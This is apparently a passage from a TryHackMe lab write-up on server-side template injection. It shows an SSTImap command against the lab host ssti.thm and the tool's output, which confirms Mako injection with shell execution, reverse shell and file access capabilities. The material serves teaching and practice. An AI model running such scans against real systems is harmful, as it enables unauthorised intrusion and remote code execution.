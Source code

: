You can use SSTImap by providing it with the target URL and any necessary options. Here’s a simple usage example:

```bash
python3 sstimap.py -X POST -u 'http://ssti.thm:8002/mako/' -d 'page='
```

This command attempts to detect the SSTI vulnerability using tailored payloads.

```shell-session
user@tryhackme $ python3 sstimap.py -X POST -u 'http://ssti.thm:8002/mako/' -d 'page='           

    ╔══════╦══════╦═══════╗ ▀█▀
    ║ ╔════╣ ╔════╩══╗ ╔══╝═╗▀╔═
    ║ ╚════╣ ╚════╗  ║ ║    ║{║  _ __ ___   __ _ _ __
    ╚════╗ ╠════╗ ║  ║ ║    ║*║ | '_ ` _ \ / _` | '_ \
    ╔════╝ ╠════╝ ║  ║ ║    ║}║ | | | | | | (_| | |_) |
    ╚══════╩══════╝  ╚═╝    ╚╦╝ |_| |_| |_|\__,_| .__/
                             │                  | |
                                                |_|
[*] Version: 1.2.1
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] Loaded plugins by categories: languages: 5; generic: 3; engines: 17; legacy_engines: 2
[*] Loaded request body types: 4

[*] Scanning url: http://ssti.thm:8002/mako/
[*] Testing if Body parameter 'page' is injectable
[*] Mako plugin is testing rendering with tag '*'
[+] Mako plugin has confirmed injection with tag '*'
[+] SSTImap identified the following injection point:

  Body parameter: page
  Engine: Mako
  Injection: *
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, python code
```


# Extra-Mile Challenge
---
